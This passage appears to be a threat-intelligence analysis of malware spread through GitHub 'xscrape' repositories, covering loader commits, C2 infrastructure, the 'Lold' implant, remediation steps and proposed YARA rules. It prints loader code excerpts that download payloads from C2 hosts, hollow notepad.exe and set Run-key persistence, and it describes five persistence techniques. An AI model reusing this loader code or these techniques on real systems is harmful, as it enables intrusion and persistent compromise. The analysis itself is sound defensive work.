This file is likely used verbatim by the adversary because of the full CLI `--api-key`, `--payload-key`, `--map-only`, `-v`, `-q`, `--keep` which is described as a "Server Mapper client". 

The requests made can be broken down into the following 2:

|Request Name|(Guessed) Purpose|
|-----|-----|
|`GET http://<C2>:8765/api/v1/client/manual_mapper.py`|Downloads the python PE mapper, runs in memory.|
|`GET http://<C2>:8765/api/v1/sync?asset=main`|Downloads encrypted Windows payload, decrypted with the payload key, mapped and started.|

#### Part 2: `gunkonchi/xscrape`
Analysis of commit tree, forks, and past commits, and we can see that this repo is kind of like a "staging repo". The more "popular" copy (Purely going by the definitely bought Github stars), is this [repository](https://github.com/gunkonchi/xscrape).

I put the details of it in the table below. 

|Item|Value|
|-----|-----|
|Repo|https://github.com/gunkonchi/xscrape/commit/aae9f20239015aca48e22e91383439016a8b462f, 641 stars, 151 forks|
|Commits|37, from 2026-09-26 to 2026-10-20, all by `"Toshi"` or `claylowemsso[@]outlook.com`, account ID 301034669|
|HEAD|`c25851d` on 2026-10-20 with `fs.py` is the embedded PE mapper carrying Lold, `client.py` launches it as a subprocess|
|Loader Versions|6 (f1c8b61, fe1f73d, aae9f20, 06a24e6, a672366, 2edd47f) |
|C2s used|`172[.]239[.]96[.]53[:]8765 → 85[.]121[.]179[.]7[.]8765 and [.]8000 → 194[.]102[.]104[.]223[:]8093`|
|On Windows?|Lold installs, persists - Self healing + Masquerading as OneDrive|
|On Linux?|Dies|

**Do not that the name `Lold` comes from the PE section called `.loldcfg`, which holds the build config. Hence that name.**

With some help from AI, I reconstructed the commit history of the malicious files:

| Date | Commit | File | Change |
| --- | --- | --- | --- |
| 2026-10-20 | `c25851d` | `client.py` | Launches `fs.py` with `subprocess.Popen([sys.executable, "xscrape/fs.py"])`; `sys` is not imported, so this import crashes, but running `fs.py` directly still works |
| 2026-10-17 | `c3ac500`, `b208c0c` | `client.py` | Switch from in-process import to launching `fs.py` as a process |
| 2026-10-15 | `2edd47f` | `fs.py` (1.1 MB) | Plaintext mapper with the embedded Lold implant; still at HEAD |
| 2026-10-11 | `a672366` | `fs.py` | Re-obfuscated build, C2 `85[.]121[.]179[.7]:8765` |
| 2026-10-09 | `06a24e6` | `fs.py` | Plaintext PyMapper hollowing client, C2 `85[.]121[.]179[.7]:8000` |
| 2026-10-03 | `aae9f20` | `fs.py` | Re-obfuscated build, C2 `85[.]121[.]179[.7]:8765` |
| 2026-09-26 | `fe1f73d` | `fs.py` | Re-obfuscated build, C2 moved to `85[.]121[.]179[.7]:8765` |
| 2026-09-26 | `f1c8b61` | `fs.py`, `client.py` | Initial import: identical to kloxeld, C2 `172[.]239[.]96[.]53[:]8765`, `fs.run_sync()` at module level |

I'll focus on two of the more interesting commits. 

##### Build 06a24e6: PyMapper Process-Hollowing client

```python
URL   = "http://85[.]121[.]179[.7]:8000"
TOKEN = "e6adfdbe87e1d8ae9afc2856e6d39e5adb7fffa6fd879cff19bcb5052929a332"
HASH  = "464bc0bd3e716d5276909c4b2cf0817f8579d5fd4bcc784557b74ec6f66fa403"

def _sign(method, path, body):
    ts = str(int(time.time()))
    nonce = secrets.token_hex(8)
    digest = hashlib.sha256(body or b"").hexdigest()
    msg = f"{ts}\n{nonce}\n{method.upper()}\n{path}\n{digest}".encode()
    return {"X-PyMapper-Client": "pymapper-client/0.5", "X-PyMapper-Ts": ts,
            "X-PyMapper-Nonce": nonce,
            "X-PyMapper-Sign": hmac.new(TOKEN.encode(), msg, hashlib.sha256).hexdigest()}

def main():
    blob = _http("GET", "/pe/hash/" + HASH)    # payload looked up by SHA-256
    _inject(blob)
```

The more interesting part of how it's done now is that each request is authenticated with an HMAC over timestamp, nonce, method, path, body hash, **allowing the adversary to store and serve payloads via hash, so N number of payloads can sit behind one endpoint!**

**Execution-Wise**
1) Maps the PE locally with ctypes: allocates memory at the image's preferred base, copies sections, applies relocations, resolves imports and delay imports, and sets page protections. It only accepts 64-bit (PE32+) executables.
2) Fakes a file on disk. It hooks CreateFileW/A, ReadFile, GetFileSize(Ex), SetFilePointer(Ex), GetModuleFileNameW/A and CloseHandle, plus the matching ntdll calls, so the payload believes it is running from %TEMP%\peself.exe and reads its own bytes from memory. It also writes a copy of the payload to %TEMP%\peself.exe.
3) Hollows notepad. It starts C:\Windows\System32\notepad.exe suspended and without a window, writes the mapped image into it, and parks the main thread with an EB FE (jump-to-self) patch on notepad's entry point.
4) Hijacks the thread. It patches kernel32 and ntdll hooks into the remote process, repoints the PEB image base and the process parameters' image path and command line, sets RIP to its loader stub, and resumes the thread.

As a result, the paylod runs as `notepad.exe` on the victim machine. 

##### Build 2edd47f (current HEAD): embedded PE mapper and the Lold implant
This carries a base64-encoded Windows executable, installs itself to run at every logon, maps executable into own Python process. 



```python 
AUTOSTART_RUN_KEY    = r"Software\Microsoft\Windows\CurrentVersion\Run"
AUTOSTART_VALUE_NAME = "map"
APP_FOLDER_NAME, INSTALLED_SCRIPT_NAME = "map", "map.py"
LEGACY_AUTOSTART_VALUE, LEGACY_APP_FOLDER = "PeInmemoryAutostart", "PeInmemory"

def main():
    if "--_child" in sys.argv:
        _wait_for_shell()               # waits for Explorer, then 3 s
        run_pe_windows(decode_pe())     # map embedded PE and call its entry point
        return
    ...                                 # --check (verify only), --embed FILE.exe (builder)
    _ensure_autostart()                 # copy to %LOCALAPPDATA%\map\map.py + HKCU Run "map"
    subprocess.run([sys.executable, "-u", __file__, "--_child"])
```

It's got the following more-advanced features:

1) Persistence: copies itself to %LOCALAPPDATA%\map\map.py and sets HKCU\Software\Microsoft\Windows\CurrentVersion\Run value map to "<python.exe>" -u "%LOCALAPPDATA%\map\map.py". No admin rights needed.
2) Cleans up an older version: deletes scheduled task PeInmemoryAutostart, the Run value of the same name, and %LOCALAPPDATA%\PeInmemory\pe_inmemory.py. Those names are indicators of earlier infections.
3) Builder built in: --embed FILE.exe replaces the blob between # >>> PE_B64_BEGIN and # >>> PE_B64_END with any executable. One script can carry any payload.
4) Mapping: VirtualAlloc at the preferred base, sections copied, relocations applied, imports resolved with LoadLibraryA/GetProcAddress, protections set, then the entry point is called directly.

I calculated the Lold implant's information.

| Property | Value |
| --- | --- |
| SHA-256 | `b7cb766340cf4da00d990bf1dce5274c6f0fa56bde415ab525af9e4136c225bd` |
| SHA-1 / MD5 | `a417a12666ffd9f60bd65297a44c988b3145817f` / `bcd6e29ea7e07f65618ad3519915089b` |
| Type | Native x64 Windows GUI executable, MSVC C++, 843,776 bytes |
| Compile timestamp | 2026-10-04 21:32:06 UTC |
| Imphash | `71eb0f18e577947f062d0811f3a37327` |
| Custom sections | `.loldcfg` (builder config), `.gxfg`, `_RDATA` |
| C2 | `http://194[.]102[,]104[.]223:8093` |
| Build config | `LOLD_CFG_V1`, key ID `k_2bd3fc9c76cca447b05b14ee6211d9da3c5b7fa0b04145af`, payload ID `p_ddafdf3846ca91f112`, build `bld__-2ErC1l2gc2ku7PV4VIH4kw.exe` |
| Mutex prefix | `Local\Lold_` |

On virustotal, we can see that it's classified under the `Medusa/Midie` trojan family


1) C2 Traffic is AES encrypted via `bcrypt.dll`, and `chunks`, suggesting chunking (delivering in pieces).
2) Persistence is done in 5 ways
- Run Key under `Software\Microsoft\Windows\CurrentVersion\Run`
- Task and entry names with the prefixes `MicrosoftEdgeUpdateTask_…` and `OneDriveSync_…`
- WMI event subscription in `root\subscription`: `__EventFilter` on `Win32_ProcessStartTrace` for `explorer.exe` and an` __IntervalTimerInstruction` timer, bound to a `CommandLineEventConsumer` (names LoldTimer, LoldCons)
- COM hijack under` Software\Classes\CLSID\{…}` with `ThreadingModel=Apartment`
- Files disguised as Microsoft components under %`LOCALAPPDATA%\Microsoft\: SyncServices\SyncService.exe, SyncServices\SyncHelper.dll, SyncServices\manifest.json, SyncServices\settings.dat, SyncServices\runstate.bin, OneDriveStandalone\OneDriveUpdate.exe, OneDriveStandalone\cache.dat, DeviceSync\sync.dat, Terminal Server Client\state.bin`, with the description "OneDrive sync updater" and publisher "Microsoft Corporation"
- Keeping a payload alive via strings `PayloadKeepAlive`, `RunInteractively`, `--lold-container` and a list of host programs (`notepad.exe`, `wermgr.exe`, `mobsync.exe`, `sndvol.exe`, `wscntfy.exe`, `rekeywiz.exe`), consistent with injecting the served payload into a legitimate process. Imports include `CreateProcessW`, `WriteProcessMemory` and `Wow64SetThreadContext`.
- Operator control via `--uninstall`, "c2 requested uninstall", "Payload uninstall completed".

The presence of a debug log path/unfinished template code like `LOLD_COM_CLSID_PLACEHOLDER` do indicate that this isn't the full version. Hence, **writing a YARA rule to block this hash** is premature. 

##### Infrastructure examination 
| Host | Port | Endpoint | Used by | Auth / fingerprint | First seen in code |
| --- | --- | --- | --- | --- | --- |
| `194[.]102[,]104[.]223` | 8093 | `http://194[.]102[,]104[.]223:8093` (paths encrypted) | Lold implant (`2edd47f`) | AES via bcrypt; key ID `k_2bd3fc9c…` | 2026-10-15 (compiled 2026-10-04) |
| `85[.]121[.]179[.7]` | 8000 | `GET /pe/hash/<sha256>` | PyMapper client (`06a24e6`) | `X-PyMapper-Client: pymapper-client/0.5`, HMAC `X-PyMapper-Sign` | 2026-10-09 |
| `85[.]121[.]179[.7]` | 8765 | `GET /api/v1/client/manual_mapper.py`, `GET /api/v1/sync?asset=main` | Obfuscated builds `fe1f73d`, `aae9f20`, `a672366` | `User-Agent: SyncClient/1.0`, `Authorization: Bearer <key>` | 2026-09-26 |
| `172[.]239[.]96[.]53` | 8765 | Same two paths as above | kloxeld `864851b`, gunkonchi `f1c8b61`, Colafornia `src/fs.py` | Same as above | 2026-09-20 (kloxeld commit date) |
 
Using whois
- `172[.]239[.]96[.]53` sits in `172.224.0.0/12`, registered to Akamai Technologies (Akamai Connected Cloud, formerly Linode, AS63949): a rented cloud VPS.
- The owners of `85[.]121[.]179[.7]` and `194[.]102[,]104[.]223` when looked up, originate from Moldova.



## Assessment 
This is likely malware-as-a-service. I believe so because of the custom, builder-based loader kit with a panel-style backend. It's likely a single operator/a small crew because although advanced techniques like Proc Hollowing are used, it's not useful in modern EDRs like corporate Defender because Process Hollowing is a technique which worked 20 years ago. Today, the moment you call stuff like `WriteProcessMemory` or `SetThreadContext`, you'll be flagged by EDR and reverse-hunted. Even doing `CreateProcess` already gets you a stage-1 flag in some EDRs. Additionally, the fact that it requires the victim to run Windows (on mac/linux, python stager should fizzle out at `RuntimeError("win32 Only")`) reflects a lack of planning which is unexpected given the tactics used.

## Remediation 
1) Don't download and clone the repos. 
2) If downloaded, go through the usual steps. Disconnect the machine, reinstall windows on the infected device **because the five persistence methods are meant to survive you manually clicking delete on them**. 
3) On a green device, change all logins, passwords, sign out of all sessions, enable 2FA.
4) Preserve a copy of the old infected OS if needed for further triage or a reverse-hunt. 


I also propose implementation of the following YARA rules:

```YARA
rule XScrape_Python_Obfuscated_Loader
{
    meta:
        description = "Obfuscated fs.py loader: XOR name hiding, HMAC-SHA256 CTR blobs, exec via builtins"
        date = "2026-10-25"
    strings:
        $xor_lambda = /=\s*lambda\s+\w+\s*,\s*\w+\s*:\s*bytes\(\w+\^\w+ for \w+ in \w+\)/
        $hidden_import = /__import__\(\w+\(\[[0-9,]+\],[0-9]+\)\.decode\(\)\)/
        $opaque = /\(\([0-9]+<<[0-9]+\)\^[0-9]+\)&65535!=[0-9]+/
        $ctr = /\.to_bytes\(8,\w+\(\[[0-9,]+\],[0-9]+\)\.decode\(\)\)/
        $blob = /=\[\[([0-9]{1,3},){300}/
    condition:
        filesize < 2MB and $xor_lambda and $hidden_import and 2 of ($opaque, $ctr, $blob)
}
 
rule XScrape_Python_Stage2_SyncClient
{
    meta:
        description = "Decrypted stage 2 downloader: per-index SHA-256 string table, in-memory module exec"
        date = "2026-10-25"
    strings:
        $dec = /\^\(\(\w+\*17\+11\)&255\)/
        $key = /sha256\(\w+\+\w+\.to_bytes\(4,'little'\)\)/
        $exec = /exec\(compile\(\w+,\s*\w+,/
        $mod = "types.ModuleType(mod_name)"
    condition:
        filesize < 1MB and $dec and $key and ($exec or $mod)
}
 
rule XScrape_PyMapper_Hollowing_Client
{
    meta:
        description = "PyMapper client: signed /pe/hash/ download, notepad.exe process hollowing"
        date = "2026-10-25"
    strings:
        $h1 = "X-PyMapper-Sign"
        $h2 = "pymapper-client/"
        $p = "/pe/hash/"
        $host = "notepad.exe"
        $c1 = "CREATE_SUSPENDED"
        $c2 = "WriteProcessMemory"
    condition:
        filesize < 2MB and ($h1 or $h2) and $p and 2 of ($host, $c1, $c2)
}
 
rule XScrape_Embedded_PE_Mapper
{
    meta:
        description = "Single-file in-memory PE mapper with base64 PE between markers and HKCU Run persistence"
        date = "2026-10-25"
    strings:
        $m1 = "# >>> PE_B64_BEGIN"
        $m2 = "# >>> PE_B64_END"
        $c = "class InMemoryMapper"
        $p1 = "PeInmemoryAutostart"
        $p2 = "Single-file in-memory PE mapper"
        $b64pe = "ENCODED_PE = \"\"\"TVqQ"
    condition:
        ($m1 and $m2 and $c) or ($c and 1 of ($p1, $p2, $b64pe))
}
 
rule Lold_Loader_Implant
{
    meta:
        description = "Lold persistent loader (x64 PE): LOLD_CFG_V1 config, WMI/COM/Run/task persistence"
        date = "2026-10-25"
        sha256 = "b7cb766340cf4da00d990bf1dce5274c6f0fa56bde415ab525af9e4136c225bd"
    strings:
        $cfg = "LOLD_CFG_V1" ascii
        $sec = ".loldcfg" ascii
        $ph = "LOLD_COM_CLSID_PLACEHOLDER" ascii wide
        $ctr = "--lold-container" ascii wide
        $wmi1 = "LoldTimer" ascii wide
        $wmi2 = "LoldCons" ascii wide
        $mtx = "Local\\Lold_" ascii wide
        $ka = "PayloadKeepAlive" ascii wide
        $f1 = "Microsoft\\SyncServices\\SyncService.exe" ascii wide
        $f2 = "Microsoft\\OneDriveStandalone\\OneDriveUpdate.exe" ascii wide
    condition:
        uint16(0) == 0x5A4D and (($cfg or $sec) and 2 of ($ph, $ctr, $wmi1, $wmi2, $mtx, $ka, $f1, $f2))
}
 
rule XScrape_Campaign_Network_IOCs
{
    meta:
        description = "Plaintext C2 addresses and protocol strings from the xscrape campaign"
        date = "2026-10-25"
    strings:
        $ip1 = "172.239.96.53"
        $ip2 = "85.121.179.7"
        $ip3 = "194.102.104.223" ascii wide
        $ua = "SyncClient/1.0"
        $mm = "manual_mapper"
        $env = "MAPPER_PAYLOAD_KEY"
    condition:
        any of them
}
```